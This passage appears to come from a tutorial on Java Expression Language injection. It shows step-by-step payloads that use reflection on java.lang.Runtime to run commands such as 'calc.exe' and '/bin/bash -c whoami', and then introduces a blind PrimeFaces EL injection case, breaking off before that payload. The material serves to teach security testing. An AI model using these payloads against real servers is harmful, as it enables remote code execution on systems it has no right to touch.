 ${request.getAttribute(&quot;a&quot;).add(&quot;hello&quot;)}

${request.getAttribute(&quot;a&quot;)}

From this point we can now Just create an object of java.lang.Runtime class and call the exec() method on it.

Payload: ${{&#39;a&#39;.getClass().forName(&#39;java.lang.Runtime&#39;).newInstance()}}

Class javax.el.BeanELResolver can not access a member of class java.lang.Runtime with modifiers &quot;private&quot;

Fail, Calling the newInstance()  method on java.lang.Runtime class is not allowed.

 

Our next try is to create a new Runtime using reflection.

 

Payload: ${&quot;&quot;.getClass().forName(&quot;java.lang.Runtime&quot;).getMethods()[6].invoke(&quot;&quot;.getClass().forName(&quot;java.lang.Runtime&quot;)).exec(&quot;calc.exe&quot;)}

Output: BOOM!!!

  ![](https://github.com/adam-p/markdown-here/raw/master/src/common/images/icon48.png )

Here is another payload using reflection to create a new Runtime but using getDeclaredConstructors method.

${{session.setAttribute(&quot;rtc&quot;,&quot;&quot;.getClass().forName(&quot;java.lang.Runtime&quot;).getDeclaredConstructors()[0])}}

${{session.getAttribute(&quot;rtc&quot;).setAccessible(true)}}

${{session.getAttribute(&quot;rtc&quot;).getRuntime().exec(&quot;/bin/bash -c whoami&quot;)}}

In next section we will demonstrate another difficult example how we can construct a malicious payload in black box. If we cannot see error messages and stack trace log. If we cannot create Runtime object. What else we can do to achieve remote code execution in target.



##



## Second vulnerable Application

## Second vulnerable Application

The vulnerable application which we are testing does not return any error or stack trace. Our second vulnerable application is using java Prime Faces library. Prime Faces had an EL Injection Vulnerability in older versions till 5.2.21 / 5.3.8 / 6.0

Since in this case we cannot see any error message or output of data we cannot know if our payload is working or not. After reading some documentation of Prime Faces we found out that we can set custom response header and in the value of that custom response header we can try to echo our payload result.

In this case the payload we have chosen is:
